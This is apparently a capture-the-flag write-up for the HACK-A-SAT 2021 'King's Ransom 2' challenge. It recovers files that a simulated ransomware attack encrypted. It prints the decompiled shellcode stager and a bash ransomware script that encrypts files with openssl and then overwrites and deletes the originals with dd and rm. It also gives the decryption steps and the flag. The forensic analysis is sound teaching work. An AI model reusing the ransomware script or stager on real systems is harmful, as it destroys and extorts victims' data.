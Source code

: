 # HACK-A-SAT 2021: King's Ransom 2

* **Category:** Presents from Marco
* **Points:** 304
* **Solves:** 5
* **Description:**

> A vulnerable service with your "bank account" information running on the target system. Too bad it has already been exploited by a piece of ransomware. The ransomware took over the target, encrypted some files on the file system, and resumed the executive loop.
>
> Follow the footsteps.
>
> Ticket
>
> Present this ticket when connecting to the challenge:
>
> ticket{victor649460delta2:GJ2NF_z7(...)GCWhRFsQ}
>
> Don't share your ticket with other teams.
>
> Connecting
>
> Connect to the challenge on:
>
> star-power.satellitesabove.me:5011
>
> Using netcat, you might run:
> nc star-power.satellitesabove.me 5011
>
> Files
>
> You'll need these files to solve the challenge.
>
> https://static.2021.hackasat.com/lyj5rhtjfw992dn0f976ra4aglss
>
> https://static.2021.hackasat.com/t5qefn4567j7zpld6xuqrhay6hlj

The files are the same as for the first challenge (King's Ransom).

## Write-up

_Write-up by Solar Wine team_

We improved the previous exploit to `fork` + `execve` to avoid killing the `challenge` process then analyzed the process' memory.

The attacker who exploited the vulnerability created a RWX mapping and put their shellcode there.
The address of this mapping can be seen in `/proc/$PID/maps`, for example here at offset `0x7f7fb895d000`:

```console
$ cat /proc/9/maps
00400000-00401000 r--p 00000000 103:01 293221                            /challenge/challenge
00401000-00402000 r-xp 00001000 103:01 293221                            /challenge/challenge
00402000-00403000 r--p 00002000 103:01 293221                            /challenge/challenge
00403000-00404000 r--p 00002000 103:01 293221                            /challenge/challenge
00404000-00405000 rw-p 00003000 103:01 293221                            /challenge/challenge
015ef000-01610000 rw-p 00000000 00:00 0                                  [heap]
12800000-12801000 rwxp 00000000 00:00 0 
7f7fb873b000-7f7fb8760000 r--p 00000000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb8760000-7f7fb88d8000 r-xp 00025000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb88d8000-7f7fb8922000 r--p 0019d000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb8922000-7f7fb8923000 ---p 001e7000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb8923000-7f7fb8926000 r--p 001e7000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb8926000-7f7fb8929000 rw-p 001ea000 103:01 527170                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7fb8929000-7f7fb892f000 rw-p 00000000 00:00 0 
7f7fb8931000-7f7fb8932000 r--p 00000000 103:01 527148                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f7fb8932000-7f7fb8955000 r-xp 00001000 103:01 527148                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f7fb8955000-7f7fb895d000 r--p 00024000 103:01 527148                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f7fb895d000-7f7fb895e000 rwxp 00000000 00:00 0 
7f7fb895e000-7f7fb895f000 r--p 0002c000 103:01 527148                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f7fb895f000-7f7fb8960000 rw-p 0002d000 103:01 527148                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f7fb8960000-7f7fb8961000 rw-p 00000000 00:00 0 
7ffd6dde3000-7ffd6de04000 rw-p 00000000 00:00 0                          [stack]
7ffd6de86000-7ffd6de89000 r--p 00000000 00:00 0                          [vvar]
7ffd6de89000-7ffd6de8a000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

This shellcode is nonetheless a stager which creates some files and executes them.
Here is its decompiled output (using Ghidra):

```c
int iVar1;
__pid_t _Var2;
char *pcVar3;
void *pvVar4;

pcVar3 = (char *)malloc(0x20);
read(0,pcVar3,0x20);                    // Receive "/challenge/gen"
pvVar4 = malloc(0x80);
iVar1 = open(pcVar3,0x241,0x1c0,open);
read(0,pvVar4,0x80);                    // Receive the script to generate the key
write(iVar1,pvVar4,0x80);
close(iVar1);
_Var2 = fork();
if (_Var2 == 0) {
    execl(pcVar3,(char *)0x0,execl);    // Generate /challenge/key
}
waitpid(_Var2,(int *)0x0,0);
pcVar3 = (char *)malloc(0x20);
read(0,pcVar3,0x20);                    // Receive "/challenge/key"
iVar1 = open(pcVar3,0,0,open);
pvVar4 = malloc(0x40);
read(iVar1,pvVar4,0x40);                // Read the generated key (into memory)
write(1,pvVar4,0x40);
pcVar3 = (char *)malloc(0x20);
read(0,pcVar3,0x20);                    // Receive "/challenge/ransom"
pvVar4 = malloc(0x400);
read(0,pvVar4,0x400);
iVar1 = open(pcVar3,0x241,0x1c0,open);
write(iVar1,pvVar4,0x400);              // Receive the script to encrypt files
close(iVar1);
_Var2 = fork();
if (_Var2 == 0) {
    execl(pcVar3,(char *)0x0,execl);    // Encrypt the files
}
waitpid(_Var2,(int *)0x0,0);
(*(code *)0x401906)();                  // Jump back to challenge
```

Using `malloc` ourselves, we were able to recover the location of the heap of the challenge process and its content.
With this, we understood what the shellcode did, which is what we documented in the previous decompiled output.

In the recovered heap you can find a partial flag (missing the 21 last bytes) but also the command used to generate the encryption key (which was saved in file `/challenge/gen`):

```sh
#!/bin/sh
echo "$(echo '77ef3e4ce2b23c4406ec65b5c409ced891fbbe51')$(domainname -A)"|sha256sum|cut -d' ' -f1>/challenge/key
```

There is also the script which was used to encrypt all the files, which is still present in file `/challenge/ransom`:

```sh
#!/bin/bash
for f in /challenge/bank/*;do
openssl enc -aes-256-cbc -a -pbkdf2 -in "$f" -out "$f".enc -k $(cat /challenge/key)
dd if=/dev/urandom of=$f bs=1024 count=10
rm "$f"
done
for f in /challenge/{gen,key,exploit.bin}; do
dd if=/dev/urandom of=$f bs=1024 count=10
rm $f
done
```

This is more than enough to recover the key and to decrypt `flag2.txt.enc`:

```console
$ cat bank/flag2.txt.enc
U2FsdGVkX1/qasm7NzUaxioaEKpPc1KYSb4mJbopb4cBlVP2tos3iQ+HDGo9Vakd
KfjhvvmwIhrbS7bKPB4jWaiHcMEk4DDll+TJfrZolKyJ2jtlCCNHCDnmcnu24ULr
KCnvIpMw/IoHQbVqVlOdB+3BU/oDQiFwoIIH8jmIvLK311aNn2USc5eRj8NQ3l3I

$ domainname -A
ab451d1fba3b

$ echo "77ef3e4ce2b23c4406ec65b5c409ced891fbbe51""ab451d1fba3b "|sha256sum
94a35e6250b4740c549282b5cdcb8bbd9f2c99343b6c3c70f352ebfffe7db936  -

$ openssl enc -d -aes-256-cbc -a -pbkdf2 -in bank/flag2.txt.enc -k 94a35e6250b4740c549282b5cdcb8bbd9f2c99343b6c3c70f352ebfffe7db936
flag{victor649460delta2:GHhxM2qETDTtvSfh5iavUAXT53jgiB2ZwbfdvR-X7_hUqozqL8Ems6zCd48ORujGD7VD5OQdY9gJriZ2cEJOq5g}
```

Then we found out that running `cat /proc/1/environ` yields, the flag, and cried a little.
